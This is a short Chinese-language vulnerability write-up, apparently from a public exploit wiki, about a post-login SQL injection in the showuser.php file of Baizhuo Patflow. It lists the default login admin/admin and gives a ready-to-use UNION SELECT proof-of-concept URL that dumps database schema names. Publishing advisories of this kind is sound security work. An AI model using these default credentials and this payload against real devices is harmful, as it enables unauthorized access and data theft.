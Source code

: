 # 百卓 Patflow showuser.php 后台SQL注入漏洞

## 漏洞描述

百卓 Patflow showuser.php文件参数过滤不充分，导致后台存在SQL注入漏洞

## 漏洞影响

<a-checkbox checked>百卓 Patflow</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/image-20210718204721988.png)



默认口令登录后台 admin/admin

存在漏洞的文件为 shwouser.php,验证POC为

```plain
/user/showuser.php?id=1%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,(select%20group_concat(SCHEMA_NAME)%20from%20information_schema.SCHEMATA),23
```



![img](/assets/PeiQi-Wiki/img/image-20210723103203935.png)

